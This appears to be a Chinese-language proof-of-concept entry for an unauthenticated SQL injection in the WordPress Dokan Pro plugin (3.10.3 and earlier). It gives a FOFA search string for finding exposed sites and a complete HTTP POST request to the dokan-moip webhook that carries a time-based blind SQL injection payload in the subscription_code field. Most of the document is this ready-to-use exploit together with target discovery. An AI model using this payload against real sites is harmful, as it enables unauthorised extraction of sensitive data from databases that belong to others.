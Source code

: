 ## WordPress插件Dokan-Pro存在SQL注入漏洞

Dokan Pro插件在3.10.3及以下版本中，由于对用户提供的'code'参数缺乏足够的转义处理以及现有SQL查询准备不足，存在SQL注入漏洞。未授权攻击者可通过该漏洞向现有查询中注入额外的SQL语句，进而从数据库中提取敏感信息。

## fofa

```
"/wp-content/plugins/dokan-pro/"

```

## poc

```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:21.0) Gecko/20100101 Firefox/21.0
Connection: close
Content-Length: 133
Accept-Encoding: gzip

{"env":"1","event":"invoice.created","resource":{"subscription_code":"11111' and (select 1 from (select sleep( if(1=1,6,0) ))x )='"}}
```

![image-20240626214430128](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262144291.png)